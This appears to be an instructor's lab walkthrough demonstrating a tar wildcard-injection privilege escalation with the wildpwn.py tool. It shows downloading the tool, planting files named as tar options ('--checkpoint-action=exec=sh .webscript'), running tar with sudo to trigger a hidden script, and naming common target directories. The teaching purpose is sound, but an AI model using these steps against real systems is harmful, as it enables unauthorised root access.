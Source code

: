 Open up a terminal and run the following commands:

- Create a new directory for this demonstration: `mkdir Documents/exploit_demo`

- Move to the `exploit_demo` directory: `cd /home/instructor/Documents/exploit_demo`

    - This is the directory to which the hacker would download the `wildpwn.py` program.

Download the script with `wget`.

- Then, run `ls -l` to show that the `wildpwn.py` program is in this directory.

    ```
     wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
     ls -l
     -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
    ```

Type  `python wildpwn.py tar .` This will create both the malicious script and checkpoint files.

- Syntax breakdown:

    - `python` is used to run Python programs.
    - `wildpwn.py` is the program we’re executing.
    - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
    - The `.` specifies that these files should be created in the current directory.

- Run the command and show the output:

    - `python wildpwn.py tar .`
    ```  
    [!] selected payload tar

    [*] Done! Now wait for something like: archive.tar * on . Good Luck!
    ```
- The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

Move into `exploit_demo`: `cd ~/Documents/exploit_demo`.

Now, use `tar` with a wildcard to create an archive and generate the malicious files: `sudo tar cf archive.tar *`

- Note that this command is run from _inside_ the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

- Getting this exploit to work obviously requires that the sysadmin create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.
Next, we’ll list the contents of our directory to show that our hidden malicious program and checkpoint files have been created.

- Run: `ls -la`
    ```
    drwxr-xr-x 3 instructor instructor 4096 Dec 28 18:41  .
    drwxr-xr-x 3 instructor instructor 4096 Dec 20 13:05  ..
    drwxr-xr-x 2 instructor instructor 4096 Dec 28 18:40  .cache
    -rw-rw-r-- 1 instructor instructor    0 Dec 28 18:41 '--checkpoint=1'
    -rw-rw-r-- 1 instructor instructor    0 Dec 28 18:41 '--checkpoint-action=exec=sh .webscript'
    -rw-rw-r-- 1 instructor instructor  535 Dec 28 18:41  .webscript
    -rw-rw-r-- 1 instructor instructor 3699 Dec 28 18:21  wildpwn.py
    ```
